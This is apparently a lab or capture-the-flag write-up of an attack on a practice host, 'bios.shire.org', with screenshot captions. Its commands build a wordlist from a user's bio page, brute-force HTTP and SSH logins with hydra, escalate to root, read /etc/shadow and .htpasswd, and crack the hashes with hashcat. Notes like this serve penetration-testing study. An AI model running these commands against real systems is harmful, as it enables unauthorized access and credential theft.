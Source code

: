 # Target 1: bios.shire.org

## Target 1.1: 10.0.5.21

<pre><code>sudo nmap 10.0.5.0/24 -p 53 --open
nslookup 10.0.5.21 10.0.5.22
# host is bios.shire.org
cewl http://10.0.5.21/bios/pippin -m 4 | egrep -v 'and|or|the' | egrep '[A-Z]' >> pippinbio.txt
nano pippinbio.txt
rsmangler -m 9 -x 12 -rp -f pippinbio.txt -o pippinmangled.txt
<strong>wc -l pippinmangled.txt
</strong><strong>nmap -sV 10.0.5.21
</strong>dirb http://10.0.5.21 -wfr
hydra -l pippin -P pippinmangled.txt -s 80 -f 10.0.5.21 http-get /admin/
hydra -l peregrin.took -P pippinmangled.txt 10.0.5.21 -t 4 ssh
ssh peregrin.took@10.0.5.21
<strong>[peregrin.took@bios]$ sudo -i
</strong><strong>[root@bios]$ cat /etc/shadow
</strong><strong># copy hashes into text file on Kali host
</strong><strong>cat /etc/httpd/conf.d/admin.conf
</strong><strong>cat /etc/httpd/.htpasswd
</strong><strong># copy hashes into another text file on Kali host
</strong><strong>hashcat -m1600 bioshttphashes.txt -w4 -a0 pippinmangled.txt
</strong><strong>hashcat -m1800 bios.txt -w4 -a0 /usr/share/wordlists/rockyou.txt
</strong></code></pre>

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>nmap results for 10.0.5.21</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption><p>dirb results for http://10.0.5.21</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>successful crack of pippin HTTP</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-03 at 11.28.55 AM.png" alt=""><figcaption><p>successful crack of pippin SSH</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-03 at 11.32.01 AM.png" alt=""><figcaption><p>successful access and elevation on 10.0.5.21</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-03 at 11.36.14 AM.png" alt=""><figcaption><p>where to find http hashes and the http hashes for 10.0.5.21</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption><p>successful crack of 2 HTTP passwords</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption><p>successful crack of 1 HTTP password</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption><p>successful crack of 1 HTTP password</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-05 at 9.09.19 AM.png" alt=""><figcaption><p>successful crack of 1 bios password</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-05 at 11.04.13 AM.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot 2024-09-05 at 8.54.07 PM.png" alt=""><figcaption></figcaption></figure>
